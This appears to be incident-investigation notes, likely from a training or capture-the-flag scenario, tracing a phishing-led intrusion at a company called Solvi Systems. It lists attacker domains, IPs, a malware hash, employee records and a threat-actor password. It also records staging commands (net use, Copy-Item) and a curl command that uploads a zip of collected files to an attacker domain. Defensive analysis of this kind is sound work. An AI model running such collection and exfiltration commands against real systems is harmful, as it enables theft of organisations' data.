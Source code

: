 ## Possibly affected countries: 
    
    - South Africa
    - Mozambique 
    - Eswatini
    - Zimbabwe
    - Namibia

## Recon:
    
    Product: docks-ics
    Alert:
        Type: xss
        Response: 404
        User-Agent: Opera/8.64
        Time: 2024-05-03T14:48:08Z
        Total Requests: 9
        Total Success: 0
    
    Suspicious Email:
        Subject:
            [EXTERNAL] Business Opportunity: Two major energy companies merging
        From:
            Email: news@eco-awareness-updates.net
            Name: unknown
        To:
            Email: carla_wharton@solvisystems.com
            Name: Carla Wharton
        Link:
            http://news-on-industry.com/search/online/files/public/Energy_Industry_Trends_2024_4_Solvi.docx
    
    Source IPs:
        - 105.78.23.64
        - 13.201.46.208
        - 56.6.30.190
        - 98.117.26.236

    Domains: 3
        1. energy-trends4u.net
        2. news-on-industry.com
        3. eco-awareness-update.net
            Details:
                - Sent multiple emails
                - Links sent: 56
                - Emails used:
                    * electric_updates@gmail.com
                    * energy_industry_news@protonmail.com
                    * news@eco-awareness-updates.net

    Documents Taken:
        - Energy_Industry_Trends_2024_4_Solvi.docx
        - Recent_Mergers_and_Acquisitions_in_Energy_Industry.docx
        - Eco_Awareness_Update_2024.docx
        - Docks_ICS_User_Guide.pdf

    Timeline:
        Total Records: 64
        First Request: 2024-05-01T00:00:00Z
        First Email:
            Time: 2024-05-01T15:51:41Z
            Recipient: Carla Wharton
            Email: carla_wharton@solvisystems.com

    Possible infected IPS:
        - 10.10.0.191
        - 10.10.0.164
            file downloaded: ecobug.exe
            file hash: 1c3ef0407d5714037504c52f7abfa86c081fd7a021b52e2abe8a669f92413252
            times downloaded: 39
            ip contacted: 98.117.26.236:1337
                times contacted: 24
                per 24H: 1
                  time: 17:38:25
                total infect time: 24 days
        - 10.10.0.81
        - 10.10.0.220
        - 10.10.0.234
        - 10.10.1.70
    Total connections: 470
    Total distict machines: 38

## Employees: 500

    Alexis Khoza:
        Role: CTO
        IP: 10.10.0.7
        Email: alexis_khoza@solvisystems.com
        Company Domain: solvisystems.com
        Username: alkhoza
        Hostname: 7FVW-LAPTOP

    Carla Wharton
        Role: Sales Representative
        IP: 10.10.0.164
        Email: carla_wharton@solvisystems.com
        Company Domain: solvisystems.com
        Username: cawharton
        Hostname: JUSP-LAPTOP


    Alexei Petrov
        role: Docks Customer Success Manager
        IP: 10.10.0.3
        Email: alexei_petrov@solvisystems.com
        Company Domain: solvisystems.com
        Username: alpetrov
        Hostname: SJ9V-MACHINE 

## Roles:
            CTO:                                    Alexis Khoza
            Customer Support Specialist:            27            
            Sales Representative:                   17                  
            Project Manager for Docks ICS:          Jamie Lee        
            Docks Customer Success Manager:         Alexei Petrov       
            DOCKS ICS Security Lead:                Taylor Green              

## Threat actor:
    username: gu@rd!an
    password: abc1toothree
    Admin group: yes
    multiple infections:
        JUSP-LAPTOP
        BHMF-LAPTOP
        MQQY-MACHINE
        BEFQ-DESKTOP
        1WA7-DESKTOP
    Discovery commands:
        - net use
        - net use /PERSISTENT:YES
                - SJ9V-MACHINE : 2024-05-27T16:23:10Z
                
                    - Copy-Item -Path \\\\solvisystems.com\\SharedDocs\\SoftwareDevelopment\\CycleDocuments\\*       
                          -Destination C:\\Users\\alpetrov\\CollectedData\\Software_Cycle_Docs
                
                - UPLM-DESKTOP : 2024-05-28T16:43:31Z
                    
                    -Copy-Item -Path \\\\solvisystems.com\\SharedDocs\\SoftwareDevelopment\\CycleDocuments\\* 
                         -Destination   C:\\Users\\jalee\\CollectedData\\Software_Cycle_Docs


                - JP4D-MACHINE : 2024-05-29T12:23:25Z
                  
            
Exfil Dara destination:
    - C:\DataExfil\CollectedData.zip
       file name: CollectedData.zip
    Exfil command:
        - curl -F 'file=@C:\DataExfil\CollectedData.zip' https://api.eco-awareness-update.net/upload
    Accounts used:
        - tagreen
        - alpetrov
        - jalee

Internal sites visited:
    - devportal.solvisystems.com
Email subject for sdlc:
    - Urgent Request: DOCKS System Documentation 🚨